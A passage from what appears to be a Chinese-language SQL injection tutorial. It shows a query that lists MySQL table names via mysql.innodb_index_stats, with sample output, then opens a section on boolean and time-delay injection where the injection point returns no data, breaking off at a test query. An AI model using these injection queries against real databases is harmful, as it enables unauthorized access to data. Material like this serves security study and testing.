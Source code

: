 

## 0x03.2 mysql表名获取

```plain
# 当前连接数据库
mysql> select database();
+------------+
| database() |
+------------+
| test       |
+------------+
1 row in set
```



SELECT distinct concat(0x7e,table_name,0x7e) from mysql.innodb_index_stats where database_name=database();



```plain
mysql> SELECT distinct concat(0x7e,table_name,0x7e) from mysql.innodb_index_stats where database_name=database();
+------------------------------+
| concat(0x7e,table_name,0x7e) |
+------------------------------+
| ~migrations~                 |
| ~sms_accounts~               |
| ~system_configs~             |
| ~templete_message_tokens~    |
| ~users~                      |
+------------------------------+
5 rows in set
```

# 十二、注入点无数据构造bool延时注入的方法

# 0x00 概要

有的时候，你发现注入了

但是因为这个注入点的数据表没有数据 / 前面加了where条件导致返回的数据为空

而无法注入，那么这个时候这个方法就可以 构造子查询 来进行延迟注入

# 0x01 测试数据

```plain
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```

